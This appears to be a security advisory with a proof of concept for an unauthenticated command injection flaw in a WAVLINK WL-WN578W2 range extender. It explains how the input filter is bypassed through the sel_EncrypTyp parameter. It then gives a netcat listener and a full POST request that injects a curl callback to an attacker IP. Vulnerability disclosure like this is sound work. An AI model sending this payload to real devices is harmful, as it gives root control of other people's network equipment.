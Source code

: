 # WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (Filter Bypass in /cgi-bin/adm.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **Unauthenticated access allowed**: Attackers can directly access the `wizard_rep.shtml` page without login credentials, then send requests to `/cgi-bin/adm.cgi` for command injection. The session does not pass a cookie, but exploitation requires no authentication (previous "unable to attack without login" conclusion was incorrect).

## Overview

A critical unauthenticated command injection vulnerability (with filter bypass) exists in `/cgi-bin/adm.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). Attackers can directly access the `wizard_rep.shtml` page without login, then exploit the weak input filter (only blocks 2 characters: `|`, `` ` ``) to bypass restrictions. By injecting arbitrary system commands via the `sel_EncrypTyp` parameter, attackers can execute `root`-level commands and fully compromise the device—no authentication required.



![Vulnerability Overview: Unauthenticated Filter Bypass Flow](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [h](https://www.wavlink.com/zh_cn/index.html)[ttps:](https://www.wavlink.com/zh_cn/index.html)[//www](https://www.wavlink.com/zh_cn/index.html)[.wavl](https://www.wavlink.com/zh_cn/index.html)[ink.c](https://www.wavlink.com/zh_cn/index.html)[om/zh](https://www.wavlink.com/zh_cn/index.html)[\_cn/i](https://www.wavlink.com/zh_cn/index.html)[ndex.](https://www.wavlink.com/zh_cn/index.html)[html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[://do](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[cs.wa](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[vlink](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[.xyz/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[Firmw](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[are\_c](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[h/fm-](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[578w2](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, no login required—accessible via `wizard_rep.shtml`)

*   **Vulnerable Parameter**: `sel_EncrypTyp`

*   **Vulnerability Type**: Unauthenticated Command Injection (Filter Bypass)

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary `root` commands (exfiltrate sensitive data, plant backdoors, modify configurations) without any login credentials.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Analysis

#### 1. Weak Input Filter (Bypassable)

The firmware’s `sub_40A91C` function implements a basic input filter, but only blocks two characters:



*   Blocks `|` (pipe) and `` ` `` (backtick) to prevent simple command injection.

*   Ignores common command separators: `;` (semicolon), `&&` (logical AND), `||` (logical OR), `$(` (command substitution).

    Attackers can use these allowed separators to bypass the filter and inject malicious commands—no authentication needed.

#### 2. Command Injection Vector

The `sel_EncrypTyp` parameter (extracted from POST requests via `sub_409184`) is directly concatenated into system commands without additional sanitization. Since the weak filter fails to block key separators, and the `wizard_rep.shtml` page (which links to `/cgi-bin/adm.cgi`) is accessible without login, attackers can inject arbitrary commands into `sel_EncrypTyp` (e.g., append `; [malicious command] #`) to execute with `root` privileges.



![Weak Filter Logic Snippet 1](./imgs/2.png)



![Weak Filter Logic Snippet 2](./imgs/3.png)



![Command Injection Vector Snippet](./imgs/4.png)

## Proof of Concept (PoC)

### PoC: Unauthenticated Filter Bypass & `curl` Command Injection

No login credentials required—directly access the page and send the request.

#### 1. Prepare for Exploitation



*   Start a Netcat listener on the attacker machine (IP: 192.168.10.154, Port: 1234) to monitor command execution results:



```
nc -lvnp 1234
```

#### 2. Access Page & Send Unauthenticated POST Request



*   Directly visit the `wizard_rep.shtml` page of the target device (e.g., `http://wifi.wavlink.com/wizard_rep.shtml`)—no login prompt will appear.

*   Send the following POST request to `/cgi-bin/adm.cgi` (no authentication cookies/headers needed):



```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 728
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://wifi.wavlink.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wifi.wavlink.com/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=wzdrepeater&select=sel2&sel_Automode=WPA2PSK&sel_EncrypTyp=AES;curl http://192.168.10.154:1234#&wlan_ssid=a827&wlan_bssid=34%3A0a%3A98%3A1a%3A6e%3Aac&wlan_signal=100&wlan_channel=9&wlan_index=2&wlan_wepkey=&wepKeyLen0=&format0=&key0=&pskFormat0=0&pskValue0=&ciphersuite0=&wpa2ciphersuite0=&wepKeyLen1=&length1=&format1=&key1=&pskFormat1=&pskValue1=&ciphersuite1=&wpa2ciphersuite1=&submit-url=%2Fcountdown.htm%3Fsettp%3D5&submit-value=&static_en=0&hostname=&skiplist1=12%3B13%3B14%3B&skiplist2=&skiplist3=&manual_pw=&Model=repeater&rep_type=0&web_pskValue=jm912558&wl_rep_ssid2g=a827_EXT&wl_rep_ssid5g=&wl_rep_ssid5g_2=&ssid2g_input=&Channel=&SECURITYMODE=NONE&wl_key=&wl_rep_ssid2=&wl_rep_ssid5=&INPUTTYPE=0&repeater_mode=0
```

#### 3. Verify Command Execution

The Netcat listener receives a request from the device’s IP (e.g., 192.168.10.1), confirming that the injected `curl` command was executed successfully—proving unauthenticated command injection with filter bypass.



![Step 3: Netcat Captures Execution Result](./imgs/5.png)
